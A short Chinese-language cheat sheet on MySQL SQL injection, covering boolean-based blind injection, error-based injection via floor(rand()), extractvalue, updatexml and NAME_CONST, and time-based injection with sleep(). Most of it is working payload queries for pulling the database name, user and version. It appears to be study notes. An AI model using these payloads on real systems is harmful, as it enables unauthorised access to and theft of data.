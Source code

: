 # 盲注

 ## 1.基于布尔SQL盲注----------构造逻辑判断

 -   盲注就是在sql注入过程中，sql语句执行的选择后，选择的数据不能回显到前端页面。此时，我们需要利用一些方法进行判断或者尝试，这个过程称之为盲注：
      -  三大法宝：mid(),substr(),left()
      -  str="123456"     mid(str,2,1)    结果为2
      -  substr(DATABASE(),1,1)>’a’,查看数据库名第一位
      -  left(database(),1)>’a’,查看数据库名第一位，left(database(),2)>’ab’,查看数据库名前二位
      -  ORD()函数，此函数为返回第一个字符的ASCII码
      -  ASCII('a')
      -  regexp正则注入  
		 select user() regexp '^[a-z]'
      -  ike匹配注入  
			select user() like 'ro%'

## 2.   报错注入

1. rand不能和order by一起用
    -  	select * from users where id=1 and (select 1 from (select count(*) from information_schema.tables group by concat(user(),floor(rand(0)*2)))a);
    -  	 select * from users where id=1 and (select 1 from (select count(*),concat(user(),floor(rand(0)*2))x from information_schema.tables group by x)a);

2. 	extractvalue（）
    - select * from users where id=1 and (extractvalue(1,concat(0x7e,(select user()),0x7e)));  
    0x7e 代表   &nbsp; &nbsp;<b>~</b>
    - select * from users where id=1 and (updatexml(1,concat(0x7e,(select user()),0x7e),1));
4. 利用数据重复性
    -  select * from (select NAME_CONST(version(),1),NAME_CONST(version(),1))x;

## 3.   基于时间的SQL盲注----------延时注入

   -   If(ascii(substr(database(),1,1))>115,0,sleep(5))  







